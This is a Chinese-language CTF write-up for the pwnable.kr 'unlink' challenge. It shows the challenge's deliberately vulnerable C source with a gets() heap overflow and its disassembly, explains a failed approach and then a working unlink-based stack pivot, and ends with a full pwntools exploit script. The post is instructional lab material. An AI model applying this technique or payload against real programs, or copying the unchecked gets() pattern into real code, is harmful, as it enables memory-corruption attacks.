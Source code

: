 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
	        struct tagOBJ* fd;
	        struct tagOBJ* bk;
	        char buf[8];
	}OBJ;
	
	void shell(){
	        system("/bin/sh");
	}
	
	void unlink(OBJ* P){
	        OBJ* BK;
	        OBJ* FD;
	        BK=P->bk;
	        FD=P->fd;
	        FD->bk=BK;
	        BK->fd=FD;
	}
	int main(int argc, char* argv[]){
	        malloc(1024);
	        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
	        // double linked list: A <-> B <-> C
	        A->fd = B;
	        B->bk = A;
	        B->fd = C;
	        C->bk = B;
	
	        printf("here is stack address leak: %p\n", &A);
	        printf("here is heap address leak: %p\n", A);
	        printf("now that you have leaks, get shell!\n");
	        // heap overflow!
	        gets(A->buf);
	         
	        // exploit this unlink!
	        unlink(B);
	        return 0;
	}




可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

	.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
	.text:0804852F                 public main
	.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
	.text:0804852F
	.text:0804852F var_14          = dword ptr -14h
	.text:0804852F var_10          = dword ptr -10h
	.text:0804852F var_C           = dword ptr -0Ch
	.text:0804852F var_4           = dword ptr -4
	.text:0804852F argc            = dword ptr  8
	.text:0804852F argv            = dword ptr  0Ch
	.text:0804852F envp            = dword ptr  10h
	.text:0804852F
	.text:0804852F ; __unwind {
	.text:0804852F                 lea     ecx, [esp+4]
	.text:08048533                 and     esp, 0FFFFFFF0h
	.text:08048536                 push    dword ptr [ecx-4]
	.text:08048539                 push    ebp
	.text:0804853A                 mov     ebp, esp
	.text:0804853C                 push    ecx
	.text:0804853D                 sub     esp, 14h
	.text:08048540                 sub     esp, 0Ch
	.text:08048543                 push    400h            ; size
	.text:08048548                 call    _malloc
	.text:0804854D                 add     esp, 10h
	.text:08048550                 sub     esp, 0Ch
	.text:08048553                 push    10h             ; size
	.text:08048555                 call    _malloc
	.text:0804855A                 add     esp, 10h
	.text:0804855D                 mov     [ebp+var_14], eax
	.text:08048560                 sub     esp, 0Ch
	.text:08048563                 push    10h             ; size
	.text:08048565                 call    _malloc
	.text:0804856A                 add     esp, 10h
	.text:0804856D                 mov     [ebp+var_C], eax
	.text:08048570                 sub     esp, 0Ch
	.text:08048573                 push    10h             ; size
	.text:08048575                 call    _malloc
	.text:0804857A                 add     esp, 10h
	.text:0804857D                 mov     [ebp+var_10], eax
	.text:08048580                 mov     eax, [ebp+var_14]
	.text:08048583                 mov     edx, [ebp+var_C]
	.text:08048586                 mov     [eax], edx
	.text:08048588                 mov     edx, [ebp+var_14]
	.text:0804858B                 mov     eax, [ebp+var_C]
	.text:0804858E                 mov     [eax+4], edx
	.text:08048591                 mov     eax, [ebp+var_C]
	.text:08048594                 mov     edx, [ebp+var_10]
	.text:08048597                 mov     [eax], edx
	.text:08048599                 mov     eax, [ebp+var_10]
	.text:0804859C                 mov     edx, [ebp+var_C]
	.text:0804859F                 mov     [eax+4], edx
	.text:080485A2                 sub     esp, 8
	.text:080485A5                 lea     eax, [ebp+var_14]
	.text:080485A8                 push    eax
	.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
	.text:080485AE                 call    _printf
	.text:080485B3                 add     esp, 10h
	.text:080485B6                 mov     eax, [ebp+var_14]
	.text:080485B9                 sub     esp, 8
	.text:080485BC                 push    eax
	.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
	.text:080485C2                 call    _printf
	.text:080485C7                 add     esp, 10h
	.text:080485CA                 sub     esp, 0Ch
	.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
	.text:080485D2                 call    _puts
	.text:080485D7                 add     esp, 10h
	.text:080485DA                 mov     eax, [ebp+var_14]
	.text:080485DD                 add     eax, 8
	.text:080485E0                 sub     esp, 0Ch
	.text:080485E3                 push    eax             ; s
	.text:080485E4                 call    _gets
	.text:080485E9                 add     esp, 10h
	.text:080485EC                 sub     esp, 0Ch
	.text:080485EF                 push    [ebp+var_C]
	.text:080485F2                 call    unlink
	.text:080485F7                 add     esp, 10h
	.text:080485FA                 mov     eax, 0
	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn
	.text:08048606 ; } // starts at 804852F
	.text:08048606 main            endp

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是getsO（）输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

	from pwn import *
	context(os='linux', log_level='debug')
	p=process("./unlink")
	shell_addr=0x80484eb
	stack_addr=p.recvline()
	stack_addr=stack_addr.split(": 0x")[1][:-1]
	stack_addr=int(stack_addr,16)
	
	heap_addr=p.recvline()
	heap_addr=heap_addr.split(": 0x")[1][:-1]
	heap_addr=int(heap_addr,16)
	
	p.recvuntil("get shell!\n")
	payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
	p.sendline(payload)
	p.interactive()

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)
